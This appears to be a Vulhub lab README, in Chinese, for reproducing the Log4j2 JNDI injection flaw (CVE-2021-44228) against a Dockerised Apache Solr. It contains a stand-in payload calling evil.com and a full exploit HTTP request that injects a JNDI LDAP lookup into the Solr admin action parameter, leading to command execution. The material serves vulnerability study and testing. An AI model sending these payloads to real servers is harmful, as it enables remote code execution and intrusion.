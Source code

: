 # Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 漏洞环境

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![](1.png)

因为目标JDK版本低于8u191，所以我们可以使用`rmi://`或`ldap://`来直接执行Java字节码。

我们使用 [Java Chains](https://github.com/vulhub/java-chains) 工具来进行漏洞复现，通过访问 [快速入手](https://java-chains.vulhub.org/zh/docs/guide) 来启动 Java Chains，最后参考 [JNDI Basic 利用指南](https://java-chains.vulhub.org/zh/docs/module/jndi#jndibasicpayload) 设置要执行的命令为 `touch /tmp/success` 并生成 JNDI LDAP URL Payload，然后将其替换进上面的数据包中来利用漏洞：

![](2.png)

利用完毕后，可见`touch /tmp/success`已经成功被执行：

![](3.png)
